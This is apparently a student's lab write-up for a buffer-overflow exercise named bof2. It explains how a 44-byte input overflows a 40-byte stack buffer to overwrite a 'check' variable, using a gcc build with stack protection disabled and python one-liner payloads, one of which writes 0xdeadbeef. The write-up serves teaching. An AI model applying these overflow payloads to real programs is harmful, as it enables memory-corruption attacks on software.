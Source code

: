 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- Change the value of `check`, so that it statisfy the if condition.
## Solution
- Stack frame<br>
![bof2_1]()
- We review `bof2.c` and see that buf only take 40 bytes of data. But the `fgets()` can took 45 bytes, then we watch the stack frame and see that in order to change the `check` by using buffer-overflow. We need to insert 44 bytes of data (40 for `buf[40]`  + 4 for `check` ), so 45 at the `fgets()` is enough.
## Execution
1. Create `bof2.out` by using ` gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. We start buffer-overflowing 44 bytes of data into `buf[40]`.<br>
- First, let try to print `You are on the right way!`, by changing the `check` so that it doesn't = 0x04030201 and 0xdeadbeef.<br>
    > echo $(python -c "print('a'*40+'\x6b\x84\x04\x00')")| ./bof2.out<br>

    ![bof2_2]()
- Second, let print out `Yeah! You win!`, by changing the `check` so that it = 0xdeadbeef<br>
    > echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')")| ./bof2.out

    ![bof2_3]()
- And the lab is done.